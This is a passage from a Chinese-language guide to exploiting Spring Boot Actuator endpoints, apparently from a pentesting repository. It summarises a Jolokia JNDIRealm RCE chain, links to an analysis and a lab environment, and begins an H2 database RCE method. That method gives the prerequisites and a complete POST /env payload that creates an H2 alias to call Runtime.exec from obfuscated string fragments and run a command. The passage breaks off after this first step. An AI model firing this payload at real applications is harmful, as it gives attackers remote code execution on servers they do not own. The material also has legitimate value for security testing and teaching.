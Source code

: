 
#### 漏洞原理：

1. 利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2. 设置 connectionURL 地址为 RMI Service URL
3. 设置 contextFactory 为 RegistryContextFactory
4. 停止 Realm
5. 启动 Realm 以触发指定 RMI 地址的  JNDI 注入，造成 RCE 漏洞



#### 漏洞分析：

​	[Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)



#### 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```



### 0x06：h2 database query RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用（存在 spring-boot-starter-actuator 依赖）
- 存在 `com.h2database.h2` 依赖（版本要求暂未知）



#### 利用方法：

##### 步骤一：设置 spring.datasource.hikari.connection-test-query 属性

> ⚠️ 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发



spring 1.x（无回显执行命令）

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
```
